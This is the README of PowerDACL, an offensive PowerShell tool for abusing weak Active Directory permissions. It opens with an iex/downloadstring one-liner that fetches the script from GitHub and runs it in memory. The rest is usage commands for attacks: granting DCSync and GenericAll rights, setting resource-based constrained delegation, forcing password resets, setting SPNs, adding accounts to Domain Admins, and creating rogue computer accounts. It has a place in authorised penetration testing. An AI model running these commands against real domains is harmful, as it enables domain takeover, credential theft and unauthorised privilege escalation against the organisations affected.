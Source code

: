 # PowerDACL
A tool to abuse weak permissions of Active Directory Discretionary Access Control Lists (DACLs) and Access Control Entries (ACEs)

## Load PowerDACL in memory

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/PowerDACL/main/PowerDACL.ps1')
```

## Help Page
```
PowerDACL
```

## Grant DCSync rights
```
DCSync -Target username
```
```
DCSync -Target username -TargetDomain userdomain
```

## Grant GenericAll rights
```
GenericAll -Target MSSQL01$ -Grantee username
```
```
GenericAll -Target MSSQL01$ -TargetDomain acme.local -Grantee username -GranteeDomain domain.local
```

## Set RBCD:
```
RBCD -Target MSSQL01$ -Grantee username
```
```
RBCD -Target MSSQL01$ -TargetDomain domain.local -Grantee username -GranteeDomain acme.local
```
```
RBCD -Target MSSQL01$ -Clear
```

## Add Computer to domain
```
AddComputer -ComputerName evilcomputer -Password P@ssw0rd!
```
```
AddComputer -ComputerName evilcomputer -Password P@ssw0rd! -Domain ferrari.local
```

## Delete Computer from domain
```
DeleteComputer -ComputerName evilcomputer
```
```
DeleteComputer -ComputerName evilcomputer -Domain ferrari.local
```

## Force Change Password
```
ForceChangePass -Target username -Password P@ssw0rd!
```
```
ForceChangePass -Target username -Password P@ssw0rd! -TargetDomain usserdomain
```

## Set SPN:
```
SetSPN -Target username
```
```
SetSPN -Target username -TargetDomain userdomain -SPN "test/test"
```

## Remove SPN:
```
RemoveSPN -Target username
```
```
RemoveSPN -Target username -TargetDomain userdomain
```

## Set Owner
```
SetOwner -Target MSSQL01$ -Owner username
```
```
SetOwner -Target MSSQL01$ -TargetDomain acme.local -Owner username -OwnerDomain domain.local
```

## Enable Account
```
EnableAccount -Target myComputer$
```
```
EnableAccount -Target myComputer$ -Domain userdomain
```

## Disable Account
```
DisableAccount -Target myComputer$
```
```
DisableAccount -Target myComputer$ -Domain userdomain
```

## Add object to a group
```
AddToGroup -Target user -Group "Domain Admins"
```
```
AddToGroup -Target user -Group "Domain Admins" -Domain userdomain
```

## Remove object from a group
```
RemoveFromGroup -Target user -Group "Domain Admins"
```
```
RemoveFromGroup -Target user -Group "Domain Admins" -Domain userdomain
```

## Modify or clear a property for an object
```
Set-DomainObject -Identity user -Set @{'userprincipalname' = "user@domain.com"}
```
```
Set-DomainObject -Identity user -Clear 'userprincipalname'
```

## Shadow Credentials

https://github.com/Leo4j/KeyCredentialLink
